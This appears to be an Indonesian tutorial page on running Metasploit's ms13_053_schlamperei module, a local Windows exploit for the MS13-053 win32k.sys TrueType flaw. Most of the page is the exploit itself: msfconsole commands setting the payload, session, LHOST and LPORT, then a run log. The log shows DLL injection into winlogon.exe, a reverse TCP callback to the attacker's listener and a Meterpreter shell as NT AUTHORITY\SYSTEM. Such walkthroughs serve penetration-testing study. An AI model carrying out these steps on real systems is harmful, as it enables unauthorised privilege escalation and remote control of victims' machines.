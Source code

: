 # ms13_053_schlamperei

Modul `ms13_053_schlamperei` di Metasploit adalah `modul exploit` local untuk sistem Windows yang memanfaatkan kerentanan dalam pengelolaan font `TrueType` di `win32k.sys` (`MS13-053`), dikenal dengan nama `Schlamperei`. Eksploitasi ini memungkinkan eskalasi hak akses ke `SYSTEM` melalui proses yang telah dikompromi.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms13_053_schlamperei
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Killing the following session(s): 18
[*] Killing session 18
[*] 192.168.1.53 - Meterpreter session 18 closed.
msf6 exploit(windows/local/ms13_053_schlamperei) > run
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] win32k.sys file version: 6.1.7601.17514 branch: 17
[*] Launching notepad to host the exploit...
[+] Process 804 launched.
[*] Reflectively injecting the exploit DLL into 804...
[*] Injecting exploit into 804...
[*] Found winlogon.exe with PID 472
[*] Creating the thread to execute in 0x480000 (pid=472)
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Everything seems to have worked, cross your fingers and wait for a SYSTEM shell
[*] Meterpreter session 19 opened (192.168.1.11:4444 -> 192.168.1.53:49161) at 2025-05-17 06:32:21 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
